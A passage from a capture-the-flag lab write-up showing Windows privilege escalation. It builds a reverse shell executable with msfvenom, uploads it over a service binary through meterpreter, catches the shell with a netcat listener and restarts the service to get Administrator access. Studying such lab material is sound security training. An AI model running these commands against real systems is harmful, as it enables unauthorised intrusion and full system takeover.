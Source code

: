  ` $ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.115.73 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe`

- Upload the malicious file to the victim using `upload` utility from meterpreter.  

```
meterpreter > pwd
C:\Program Files (x86)\IObit\Advanced SystemCare
meterpreter > upload ASCService.exe
[*] uploading  : ASCService.exe -> ASCService.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): ASCService.exe -> ASCService.exe
[*] uploaded   : ASCService.exe -> ASCService.exe

```  

- In a new terminal session, create a listening service using netcat to listen for a reverse shell:  `nc -lnvp 4443`  

- Start the AdvanceCareSystemService9, which now executes our malicious code: `sc start AdvancedSystemCareService9`  

- The netcat listening service on the terminal will get the reverse shell with Administrator account and the root flag is available in `C:\Users\Administrators\Desktop\root.txt` as 9af5f314f5--------d09803a587db80.  
